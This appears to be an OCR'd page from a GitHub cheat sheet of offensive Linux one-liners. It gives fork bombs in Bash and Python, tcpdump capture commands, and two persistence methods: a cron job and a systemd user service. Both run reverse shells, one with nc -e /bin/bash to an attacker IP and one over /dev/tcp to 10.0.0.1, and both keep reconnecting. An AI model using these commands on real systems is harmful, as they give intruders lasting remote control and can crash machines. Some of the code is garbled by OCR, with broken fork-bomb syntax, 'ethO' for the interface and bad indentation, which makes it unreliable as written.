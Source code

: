 ![CLI](https://user-images.githubusercontent.com/72598486/204325842-a35ac0ca-0944-4c96-a089-6e0108945919.png)

# Fork Bomb

Linux:

```bash
:(){:I: &I;:
```

Python:

```python
#!/usr/bin/env python

    import os
    while True: os.fork()
```

## TCPDump

```bash
tcpdump -i ethO -XX -w out.pcap
tcpdump -i ethO port XX dst X.X.X.X
```

## One Liner to Add Persistence on a Box via Cron

```sh
echo "* * * * * /bin/nc <attacker IP> 1234 -e /bin/bash" > cron && crontab cron
```

On the attack platform: ```nc -lvp 1234```

## Systemd User Level Persistence

Place a service file in ```~/.config/systemd/user/```

```sh
vim ~/.config/systemd/user/persistence.service
```

Sample file:

```sh
[Unit]
Description=Reverse shell[Service]
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

Enable service and start service:

```sh
systemctl --user enable persistence.service
systemctl --user start persistence.service
```
